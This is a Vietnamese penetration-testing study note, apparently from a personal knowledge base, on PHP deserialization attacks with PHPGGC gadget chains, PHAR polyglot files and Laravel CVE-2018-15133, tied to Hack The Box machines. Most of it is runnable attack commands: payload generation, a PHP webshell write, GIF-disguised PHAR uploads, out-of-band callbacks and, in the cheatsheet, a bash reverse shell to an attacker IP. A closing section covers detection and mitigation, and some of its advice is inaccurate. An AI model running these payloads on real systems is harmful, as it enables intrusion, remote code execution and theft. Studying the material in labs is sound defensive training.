

> **Prerequisites**: [[02-php-object-injection|02. PHP Object Injection]]
> **Objectives**:
> - Dùng PHPGGC để generate gadget chains cho các PHP frameworks phổ biến
> - Hiểu PHAR stream wrapper và tại sao nó trigger deserialization
> - Thực hiện PHAR polyglot bypass image upload restriction
> - Khai thác Laravel CVE-2018-15133 và Monolog/RCE chains
>
---

## Điều kiện khai thác

> [!note] Điều kiện cho PHPGGC attack
> - Ứng dụng dùng framework/library có gadget chain đã biết (Laravel, Symfony, Yii, Monolog, Guzzle...)
> - Có endpoint nhận `unserialize()` với user input
> - Biết framework version (để chọn đúng gadget chain)
>
> [!note] Điều kiện cho PHAR attack
> - PHP version < 8.0 (PHAR metadata deserialization bị remove từ PHP 8.0)
> - Có file upload endpoint (bất kỳ extension nào)
> - Có ít nhất một filesystem function nhận user-controlled path: `file_exists()`, `fopen()`, `getimagesize()`, `SplFileObject`, `ZipArchive::open()`, v.v.
> - Các classes có magic method nguy hiểm đã load (framework classes)
>
---

## Cơ chế tấn công

### PHPGGC — PHP Gadget Chain Generator

PHPGGC là tool tương đương ysoserial cho PHP — tự động generate serialized payload sử dụng gadget chains đã được research trước từ các framework phổ biến.

```bash
# Liệt kê tất cả gadget chains
php phpggc -l

# Output (trích):
# Gadget Chains
# ---
# NAME             VERSION           TYPE   VECTOR         INFO
# CodeIgniter4/RCE1 4.x               RCE    __toString     ...
# Doctrine/FW1      1.x               FW     __toString     ...
# Guzzle/FW1        6.x-7.x           FW     __toString     ...
# Laravel/RCE1      5.4.x - 8.x       RCE    __destruct     ...
# Laravel/RCE2      5.5.x - 9.x       RCE    __destruct     ...
# Monolog/RCE1      1.x - 2.x         RCE    __destruct     ...
# Monolog/RCE2      1.x               RCE    __destruct     ...
# Symfony/RCE4      3.4 - 4.4         RCE    __destruct     ...
# Yii/RCE1          1.1.x             RCE    __wakeup       ...
```

**Loại gadget chains**:

| Type | Mô tả |
|------|-------|
| RCE | Remote Code Execution — chạy OS commands |
| FW | File Write — ghi file tùy ý |
| FR | File Read — đọc file tùy ý |
| FD | File Delete — xóa file |

![[img-03-phar-gadget-chain-flow.svg]]
*Hình 1: Flow đầy đủ của PHAR deserialization attack — từ generate payload đến RCE*

### Laravel CVE-2018-15133 (APP_KEY leak → RCE)

Laravel sử dụng `unserialize()` để decode `X-XSRF-TOKEN` header và session cookies, nhưng dữ liệu được mã hóa bằng `APP_KEY`. Nếu leak được APP_KEY (qua `.env` file, debug mode, source code), attacker có thể:

```bash
# 1. Generate gadget payload
php phpggc Laravel/RCE1 system "id" --base64

# 2. Encrypt với APP_KEY bằng Laravel encryption format
# (sử dụng exploit script)
python3 laravel_encrypt.py --key "base64:APP_KEY_HERE" --payload "PHPGGC_OUTPUT"

# 3. Gửi trong X-XSRF-TOKEN header
curl -X POST http://target.htb/ \
  -H "X-XSRF-TOKEN: ENCRYPTED_PAYLOAD"
```

### PHAR Deserialization

PHAR (PHP Archive) là định dạng archive của PHP. Cấu trúc PHAR chứa một metadata section được PHP tự động **deserialize** khi bất kỳ PHP filesystem function nào access file qua `phar://` stream wrapper.

**Tại sao PHAR nguy hiểm?**

```php
// Đây là code bình thường — không có unserialize() nào!
$file = $_GET['filename'];
if (file_exists($file)) {  // ← trigger PHAR deserialization nếu $file = "phar://..."
    echo "File exists";
}
```

Attacker kiểm soát `$file` → gửi `phar:///uploads/evil.gif` → PHP tự động deserialize PHAR metadata → magic methods kích hoạt → RCE.

**PHP filesystem functions bị ảnh hưởng**:

```bash
file_exists()    fopen()          file_get_contents()   file_put_contents()
fread()          readfile()       is_file()             is_dir()
stat()           mkdir()          rename()              copy()
unlink()         getimagesize()   imagecreatefrom*()    SplFileObject
ZipArchive       DOMDocument      SimpleXMLElement      ...
```

---

## Quy trình tấn công

**Môi trường giả định**: Laravel app (Horizontall-style), có file upload endpoint, PHP < 7.4.

### Scenario A: PHPGGC với Known Endpoint

**Bước 1 — Xác định framework và version**

```bash
# Tìm composer.json
curl -s http://target.htb/composer.json
curl -s http://target.htb/.env  # nếu debug mode
# Hoặc xem error messages → stack trace tiết lộ version

# Tìm Laravel version
curl -s http://target.htb/storage/logs/laravel.log | grep "laravel/framework"
```

> **Expected output**: `"laravel/framework": "^8.0"` → biết version để chọn chain.
>
**Bước 2 — Generate payload**

```bash
# Basic command execution
php phpggc Laravel/RCE1 system "id" --base64
# Output: Tzo0NDoi...base64...

# File write — tạo webshell
php phpggc Laravel/RCE2 file_put_contents /var/www/html/public/shell.php '<?php system($_GET["cmd"]); ?>'

# Monolog (nếu Laravel không work)
php phpggc Monolog/RCE1 system "id" --base64
```

> **Expected output**: Base64 payload string.
>
**Bước 3 — Inject và confirm**

```bash
# Via cookie
curl -s http://target.htb/ --cookie "laravel_session=PAYLOAD"

# Via POST body
curl -s -X POST http://target.htb/api/data \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "data=PAYLOAD"

# Confirm OOB (trước khi có shell)
php phpggc Laravel/RCE1 system "curl http://10.10.14.5/test" --base64
# Mở http.server và check nếu nhận request
```

> **Expected output**: Request đến HTTP server của attacker → xác nhận RCE.
>
### Scenario B: PHAR Attack qua File Upload

**Bước 1 — Generate PHAR payload với gadget**

```bash
# Yêu cầu phar.readonly=Off
php -d phar.readonly=0 phpggc --phar phar \
  -o payload.phar \
  Laravel/RCE1 system "id"

# Tạo PHAR polyglot với GIF header (bypass image check)
# Thêm GIF89a header vào đầu file
python3 -c "
import sys
with open('payload.phar', 'rb') as f:
    content = f.read()
# Prepend GIF89a magic bytes
with open('payload.gif', 'wb') as f:
    f.write(b'GIF89a' + content)
print('Created payload.gif')
"
```

> **Expected output**: `payload.gif` chứa PHAR data với GIF header.
>
**Bước 2 — Upload file**

```bash
# Upload disguised PHAR
curl -s -X POST http://target.htb/upload \
  -F "file=@payload.gif;type=image/gif" \
  -b "session=VALID_SESSION"

# Note: Server sẽ trả về upload path
# Output: {"path": "/uploads/a1b2c3d4_payload.gif"}
```

> **Expected output**: Upload thành công với returned file path.
>
**Bước 3 — Trigger via phar:// wrapper**

```bash
# Trigger nếu app có parameter nhận file path
curl -s "http://target.htb/process?file=phar:///var/www/html/uploads/a1b2c3d4_payload.gif"

# Trigger qua profile picture loading
curl -s "http://target.htb/avatar?path=phar:///var/www/html/uploads/a1b2c3d4_payload.gif"
```

> **Expected output**: RCE triggered — output của `id` trong response hoặc OOB callback.
>
**Bước 4 — Full Horizontall exploit chain**

```bash
# (Trên Horizontall — Laravel debug mode leak secrets)
# 1. Crash app để xem stack trace với SECRET_KEY
curl -s http://api-prod.horizontall.htb/users/register \
  -X POST -H "Content-Type: application/json" \
  -d '{"username":"a","email":"a@a","password":"aaaaaaa"}'

# 2. Generate PHAR payload với Monolog
php -d phar.readonly=0 /opt/phpggc/phpggc --phar phar \
  -o id.phar --fast-destruct monolog/rce1 system id

# 3. Trigger qua Ignition endpoint
python3 /opt/laravel-exploits/laravel-ignition-rce.py \
  http://127.0.0.1:8000 id.phar
```

---

## Biến thể & Bypass

### Bypass extension check bằng polyglot

Nhiều upload handlers check extension nhưng không check content:

```bash
# GIF + PHAR polyglot
printf 'GIF89a' > header.bin
cat header.bin payload.phar > evil.gif
# → File có magic bytes GIF89a nhưng vẫn là valid PHAR

# PNG polyglot (4 bytes PNG header)
printf '\x89PNG\r\n\x1a\n' > png_header.bin
cat png_header.bin payload.phar > evil.png
```

### Bypass getimagesize() check

`getimagesize()` đọc file và parse image header:

```bash
# Tạo image + PHAR hybrid được getimagesize() chấp nhận
# Dùng tool wrapwrap hoặc png-phar-polyglot
python3 wrapwrap.py payload.phar evil_image.png

# Hoặc thêm valid JPEG header + EXIF comment chứa PHAR
# (PHP < 8.0 vẫn recognize là valid PHAR)
```

### Fast-destruct option

Một số gadget chains cần `--fast-destruct` để trigger ngay lập tức:

```bash
php -d phar.readonly=0 phpggc --phar phar --fast-destruct \
  -o payload.phar Monolog/RCE1 system "id"
```

> [!tip] Khi nào dùng --fast-destruct?
> Dùng khi gadget chain rely on `__destruct` nhưng PHAR được access trong context mà object không bị destroy ngay (ví dụ: trong một long-running process). `--fast-destruct` thêm `unserialize(serialize($obj))` wrapper để trigger ngay.
>
### Nếu Laravel/RCE1 không work → thử theo thứ tự

```bash
# Thử từng chain cho Laravel
for chain in Laravel/RCE1 Laravel/RCE2 Laravel/RCE3 Monolog/RCE1 Monolog/RCE2; do
  echo "Testing $chain..."
  php phpggc $chain system "curl http://attacker/test_$chain" --base64
  # Inject và check HTTP server
done
```

---

## Cây quyết định



---

## Command Cheatsheet

**PHPGGC basic usage**

```bash
# Liệt kê chains
php phpggc -l
php phpggc -l Laravel     # filter theo framework

# Generate RCE payload
php phpggc Laravel/RCE1 system 'id'
php phpggc Laravel/RCE1 system 'id' --base64          # base64 encode
php phpggc Laravel/RCE1 system 'id' -b                # shorthand --base64
php phpggc Monolog/RCE1 system 'id' --base64

# Generate file write
php phpggc Laravel/RCE2 file_put_contents /tmp/test 'content'

# Generate PHAR
php -d phar.readonly=0 phpggc --phar phar -o out.phar Laravel/RCE1 system 'id'
php -d phar.readonly=0 phpggc --phar phar --fast-destruct -o out.phar Monolog/RCE1 system 'id'
```

**PHAR polyglot generation**

```bash
# Method 1: Prepend GIF header
python3 -c "
with open('payload.phar','rb') as f: d=f.read()
with open('evil.gif','wb') as f: f.write(b'GIF89a'+d)
print('Created evil.gif')
"

# Method 2: Copy với dd
dd if=payload.phar of=evil.gif bs=1 skip=0
# Thêm header bằng hex editor hoặc python

# Verify PHAR vẫn valid sau khi thêm header
php -d phar.readonly=0 -r "var_dump((new Phar('evil.gif'))->getMetadata());"
```

**Trigger PHAR qua curl**

```bash
# Qua GET parameter
curl "http://target.htb/view?file=phar:///uploads/evil.gif"

# Qua POST
curl -X POST http://target.htb/process -d "path=phar:///uploads/evil.gif"
```

**Laravel exploit chain (Horizontall pattern)**

```bash
# Generate + exploit
php -d phar.readonly=0 /opt/phpggc/phpggc \
  --phar phar -o /tmp/exploit.phar --fast-destruct \
  monolog/rce1 system 'bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"'

python3 /opt/laravel-exploits/laravel-ignition-rce.py \
  http://localhost:8000 /tmp/exploit.phar
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày.

**Drill 1 — PHPGGC quick lookup**
Mục tiêu: biết command để tìm và generate chain trong dưới 30 giây.

```bash
php phpggc -l | grep -i "laravel\|monolog\|symfony"
php phpggc Laravel/RCE1 system 'id' --base64
```

Luyện cho đến khi: gõ đúng command không cần nhìn docs.

**Drill 2 — PHAR generation pipeline**
Mục tiêu: generate PHAR polyglot đầy đủ trong dưới 2 phút.

```bash
# Full pipeline
php -d phar.readonly=0 phpggc --phar phar --fast-destruct -o /tmp/p.phar Monolog/RCE1 system 'id'
python3 -c "
with open('/tmp/p.phar','rb') as f: d=f.read()
with open('/tmp/evil.gif','wb') as f: f.write(b'GIF89a'+d)
print('Done')
"
ls -la /tmp/evil.gif
```

Luyện cho đến khi: toàn bộ pipeline chạy đúng không có lỗi.

**Drill 3 — Chain selection decision**
Mục tiêu: nhìn vào `phpggc -l` output và chọn đúng chain trong 10 giây.

Câu hỏi: App dùng Laravel 8.x + Monolog 2.x → chain nào thử trước?
Trả lời: `Laravel/RCE1` (destruct) → `Laravel/RCE2` → `Monolog/RCE1` (destruct)

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Uploaded files**: File upload có GIF header nhưng contain PHP serialized data → anomaly detection
> **Request patterns**: `phar://` trong GET/POST parameters → WAF rule
> **File system**: `.phar` files trong upload directories
> **PHP errors**: `Allowed memory size exhausted` hoặc `unserialize(): Error` khi payload format sai
> **OOB**: Unexpected DNS/HTTP requests từ web server process — OOB test của attacker
>
> **SIEM rule**: Alert khi `phar://` xuất hiện trong URL parameters; alert khi web process tạo subprocess
>
> [!note] Mitigation
> - Upgrade lên **PHP 8.0+** — PHAR metadata deserialization bị remove
> - Disable PHAR trong `php.ini`: `phar.readonly = On`; giới hạn stream wrappers: `allow_url_fopen = Off`
> - Validate file uploads: check magic bytes + extension; store uploads ngoài webroot
> - Implement Content Security Policy cho file downloads
> - Dùng allowlist thay blacklist khi validate file paths — reject bất kỳ string nào có `://`
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| HTB | **Horizontall** (Retired) | PHPGGC Monolog/RCE1, PHAR trigger qua Laravel Ignition |
| HTB | **BigBang** (Retired) | CVE-2023-26326, PHAR polyglot GIF bypass, SSRF → PHAR |
| HTB | **Cronos** (Retired) | Laravel CVE-2018-15133 (Beyond Root) |
| HTB | **Outbound** (Active) | RoundCube CVE-2025-49113 PHP deserialization |

---

## Field Manual Entry

> [!abstract] PHPGGC / PHAR — Quick Reference
> **PHPGGC**: `php phpggc -l | grep Framework` → `php phpggc Chain/RCE1 system 'cmd' --base64`
> **PHAR gen**: `php -d phar.readonly=0 phpggc --phar phar --fast-destruct -o out.phar Chain system 'cmd'`
> **Polyglot**: `python3 -c "open('evil.gif','wb').write(b'GIF89a'+open('out.phar','rb').read())"`
> **Trigger**: `curl "http://target/?file=phar:///uploads/evil.gif"`
> **Laravel CVE-2018-15133**: Cần APP_KEY → encrypt payload → X-XSRF-TOKEN header
> **Ref**: [[03-phpggc-phar-deserialization|03. PHPGGC & PHAR Deserialization]]